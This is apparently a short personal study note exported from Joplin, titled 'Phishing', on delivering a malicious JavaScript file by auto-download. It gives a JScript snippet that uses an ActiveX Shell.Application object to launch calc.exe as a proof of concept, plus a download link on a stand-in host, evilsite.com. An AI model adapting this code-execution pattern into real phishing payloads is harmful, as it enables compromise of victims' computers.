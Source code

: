 Phishing

Auto download a malicious JS File

The JS file Code

```
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

The link

> http://evilsite.com/file.js

id: 1c1437c21bed4e6e80fa19dd4590b45f
parent_id: 00b28c92e0a5415cbf7110cda063173b
created_time: 2022-01-26T15:43:47.942Z
updated_time: 2022-01-26T15:44:38.969Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-26T15:43:47.942Z
user_updated_time: 2022-01-26T15:44:38.969Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1